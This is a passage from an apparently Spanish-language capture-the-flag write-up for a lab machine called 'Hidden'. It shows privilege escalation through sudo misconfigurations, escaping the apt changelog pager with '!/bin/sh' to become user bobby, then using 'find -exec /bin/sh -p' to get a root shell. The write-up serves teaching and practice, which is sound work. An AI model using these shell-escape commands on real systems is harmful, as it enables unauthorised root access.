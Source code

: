 ![22](/assets/img/writeups/Hidden/22.png)

`sudo -u bobby /usr/bin/apt changelog apt`

`!/bin/sh`

- Probamos el primero...

![23](/assets/img/writeups/Hidden/23.png)

- Ganamos acceso a bobby. Vamos a por el siguiente que ya es root.

![24](/assets/img/writeups/Hidden/24.png)

- Vemos que podemos ejecutar como root el binario find, por lo que buscamos en nuestra herramienta.

`sudo -u root /usr/bin/find . -exec /bin/sh -p \\; -quit`

![25](/assets/img/writeups/Hidden/25.png)
